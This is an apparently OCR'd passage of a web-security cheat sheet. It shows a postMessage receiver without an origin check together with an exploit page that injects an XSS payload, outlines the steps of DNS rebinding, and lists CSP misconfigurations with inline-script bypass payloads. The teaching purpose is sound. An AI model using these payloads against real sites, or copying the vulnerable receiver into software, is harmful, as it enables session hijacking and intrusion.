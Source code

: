 ### PostMessage Vulnerabilities

#### Missing Origin Check

```javascript
// Vulnerable receiver
window.addEventListener('message', function(event) {
  // No origin check
  document.getElementById('output').innerHTML = event.data;
});

// Exploiting from attacker.com
<script>
  const victimWindow = window.open('https://victim.com');
  setTimeout(() => {
    victimWindow.postMessage('<img src=x onerror=alert(document.domain)>', '*');
  }, 2000);
</script>
```

### DNS Rebinding

1. Attacker controls `attacker.com` with short TTL
2. Victim visits `attacker.com` (resolves to attacker's server)
3. Attacker's page makes requests to `attacker.com/api`
4. DNS record changes to point to `127.0.0.1` or target IP
5. Subsequent requests go to internal target but same-origin policy allows it

## Bypassing Content Security Policy

### Misconfigured Directives

#### Missing Directives

```plaintext
# Missing object-src allows embedding Flash objects
Content-Security-Policy: default-src 'self'; script-src 'self';
```

#### Insecure Fallbacks

```plaintext
# default-src allows everything via https
Content-Security-Policy: default-src https:; script-src 'self';
```

### Unsafe Inline Bypasses

#### Exploiting 'unsafe-inline'

```html
<!-- When CSP includes: script-src 'unsafe-inline' -->
<script>alert(document.domain)</script>
<img src=x onerror="alert(document.domain)">
```
